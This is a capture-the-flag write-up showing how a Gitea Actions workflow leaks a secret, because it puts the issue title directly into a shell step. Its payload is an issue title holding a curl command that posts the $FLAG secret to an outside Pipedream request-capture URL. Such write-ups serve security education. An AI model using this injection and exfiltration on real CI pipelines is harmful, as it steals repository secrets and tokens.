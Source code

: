 ## Writeup
By Nikolas Papaioannou

We start by entering a the VCS/CICD platform Gitea by creating a new user.

First thing we should do is check if there are any repositories avaliable to us. Which there are:

![Alt text](image.png)

`TJOHO` is basically empty, but `workflow_testing` has a action, which implies that something may run there.

The action file looks like this:

```yaml
name: Gitea Actions Test
run-name: ${{ github.actor }} is testing out Gitea Actions 🚀
on:
  issues:
    types:
      - opened

jobs:
  label_issue:
    runs-on: alpine
    steps:
      - env:
          FLAG: ${{ secrets.FLAG }}
          SLACK_TOKEN: ${{ secrets.SLACK_TOKEN }}
          ISSUE_URL: ${{ github.event.issue.html_url }}
        run: |
          echo "Title: ${{ github.event.issue.title }}, Url: $ISSUE_URL"
          echo "@todo: Add slack integration and post summarized issue updates there"          

```

The run section is running a shell script, there we can control the variable `${{ github.event.issue.title }}` via the title of the issue.

As this is a secrets variable its automatically stripped from the log output, so we need to do something tricky to try to leak it.

First tought for me was using a service like RequestBin, that allows me to create a URL that I can send a request to, and then see the request in the RequestBin UI.

So settings the following title on a new issue:

`curl -d "$FLAG" -H "Content-Type: application/json"   https://eonzxrz6va4blq1.m.pipedream.net`


![Alt text](image-1.png)


**Flag:** `EPT{53CUr3_Y0Ur_4C710N5?}`